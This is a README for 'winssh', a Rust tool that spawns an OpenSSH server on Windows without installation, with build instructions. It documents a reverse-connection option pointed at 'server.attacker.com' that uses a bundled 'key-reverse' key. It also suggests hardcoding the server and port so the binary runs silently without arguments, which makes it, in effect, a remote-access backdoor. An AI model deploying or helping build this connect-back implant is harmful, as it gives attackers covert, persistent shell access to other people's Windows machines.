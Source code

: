 # winssh

Spawns a ssh server on windows. No installation required.
Based on https://github.com/PowerShell/Win32-OpenSSH/

## usage

When launched without arguments, `winssh.exe` default to start an OpenSSH server on port 127.0.0.1:8022.
You can specify a port using:
```
winssh.exe --port <port>
```

You can also specify a server to connect back to using:

```
winssh.exe --server server.attacker.com
```

Or you can modify the source to hardcode the default values for port and server resulting in a binary,
that will execute witout any commandline args.

On every build new keys will be generated. After starting the server you can use the "key" from the files directory.
The key `key-reverse` from the files directory is used to connect back to the remote server (if specified).

## compile

```
rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu
```

Windows:
```
cargo build --release --target x86_64-pc-windows-gnu
```

To reduce the filesize further, you can strip the binaries with `strip`.

